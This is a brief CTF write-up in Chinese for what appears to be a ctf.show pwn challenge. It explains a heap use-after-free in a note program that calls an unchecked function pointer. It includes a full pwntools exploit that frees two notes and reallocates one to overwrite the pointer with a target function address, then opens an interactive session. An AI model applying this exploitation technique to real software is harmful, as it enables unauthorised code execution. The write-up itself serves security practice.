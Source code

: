 而且打印函数那边没有对函数指针做出验证

```c
if ( *((_DWORD *)&notelist + v1) )
    (**((void (__cdecl ***)(_DWORD))&notelist + v1))(*((_DWORD *)&notelist + v1));
```



再找到use函数入口

```
use_addr = 0x08049684
```



标准的UAF



```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
import pwnlib
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28212
elf = ELF('./pwn')

r = remote(ip,port)

def create(size,content):
    r.recvuntil("choice :")
    r.sendline("1")
    r.recvuntil("Note size :")
    r.sendline(str(size))
    r.recvuntil("Content :")
    r.sendline(content)

def delete(index):
    r.recvuntil("choice :")
    r.sendline("2")
    r.recvuntil("Index :")
    r.sendline(str(index))

def show(index):
    r.recvuntil(b"choice :")
    r.sendline(b"3")
    r.recvuntil("Index :")
    r.sendline(str(index))

create(32,"a"*32)
create(32,"b"*32)
delete(0)
delete(1)
create(0x8,p32(0x08049684))
show(0)
r.interactive()
```
